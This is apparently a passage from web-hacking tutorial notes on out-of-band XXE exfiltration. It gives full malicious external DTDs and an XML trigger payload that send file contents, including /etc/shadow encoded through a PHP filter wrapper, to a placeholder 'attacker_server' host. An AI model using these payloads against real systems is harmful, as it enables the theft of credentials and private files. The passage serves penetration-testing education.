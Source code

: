 #### <font color="red">NOTE:</font>XXE data exfiltration becomes more complicated if the parser is hardened against XXE attacks, and if you are trying to read files of specific formats.
#### <font color="red">NOTE</font>: Sometimes you’ll want to exfiltrate files that contain XML special characters, such as angle brackets (<>), quotes (" or '), and the ampersand (&). Accessing these files directly via an XXE would break the syntax of your DTD and interfere with the exfiltration. Thankfully, XML already has a feature that deals with this issue. In an XML file, characters wrapped within CDATA (character data) tags are not seen as special characters. So, for instance, if you’re exfiltrating an XML file, you can rewrite your malicious external DTD as follows:

	1 <!ENTITY % file SYSTEM "file:///passwords.xml">
	2 <!ENTITY % start "<![CDATA[">
	3 <!ENTITY % end "]]>">
	4 <!ENTITY % ent "<!ENTITY &#x25; exfiltrate
	'http://attacker_server/?%start;%file;%end;'>">
	%ent;
	%exfiltrate;

#### This DTD first declares a parameter entity that points to the file you want to read 1. It also declares two parameter entities containing the strings "<![CDATA[" and "]]>"2 3. Then it constructs an exfiltration URL that will not break the DTD’s syntax by wrapping the file’s contents in a CDATA tag 4. he concatenated exfiltrate entity declaration will become the following:
	<!ENTITY % exfiltrate 'http://attacker_server/?<![CDATA[CONTENTS_OF_THE_FILE]]>'>
#### You can see that our payloads are quickly getting complicated. To prevent accidentally introducing syntax errors to the payload, you can use a tool such as XmlLint (https://xmllint.com/) to ensure that your XML syntax is valid. Finally, send your usual XML payload to the target to execute the attack:

	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE example [
	<!ENTITY % xxe SYSTEM "http://attacker_server/xxe.dtd">
	%xxe;
	]>
#### Another way of exfiltrating files with special characters is to use a PHP  URL wrapper. If the target is a PHP-based app, PHP wrappers let you convert the desired data into base64 format so you can use it to read XML files or even binary files:
	
	<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/shadow">
	<!ENTITY % ent "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker_server/?%file;'>">
	%ent;
	%exfiltrate;
